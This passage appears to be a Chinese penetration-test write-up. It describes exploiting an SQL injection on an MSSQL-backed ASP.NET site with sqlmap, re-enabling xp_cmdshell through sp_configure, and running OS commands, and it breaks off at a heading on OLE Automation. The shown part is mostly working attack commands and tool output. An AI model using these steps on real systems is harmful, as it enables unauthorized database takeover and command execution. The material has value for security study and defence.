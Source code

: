 ```yaml
---
title: 'Regsvr32 ole对象'
layout: post
date: '2019-07-19'
categories: 招聘
permalink: "/archivers/2019-07-19/1"
description: 某次项目技术点实录-Regsvr32 ole对象
---
```


# 某次项目技术点实录-Regsvr32 ole对象

**由于环境都无法进行演示，目前取得都是历史留存的截图**

## 突破口

一开始是一个外网的SQL注入，通过sqlmap正常操作，得知是DBA权限，数据库：MSSQL

```
sqlmap.py -u "http://xxx.com/xxx/xxx.aspx?yum=xx&xx=xx" -p yhm --random-agent --cookie='ASP.NET_SessionId=xxxx'
```

![](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2019-07-19/2019-07-19-13-57-49.png)

直接通过`--os-shell`来执行命令：

```
[18:39:23] [INFO] checking if xp_cmdshell extended procedure is available, please wait..
xp_cmdshell extended procedure does not seem to be available. Do you want sqlmap to try to re-enable it? [Y/n] Y
[18:39:25] [WARNING] xp_cmdshell re-enabling failed
```

### 启用xp_cmdshell

手动启动语句：

```
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;
```

执行：

```
exec master..xp_cmdshell "whoami"
```

### 启用OLE Automation

![](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2019-07-19/2019-07-19-15-19-48.png)
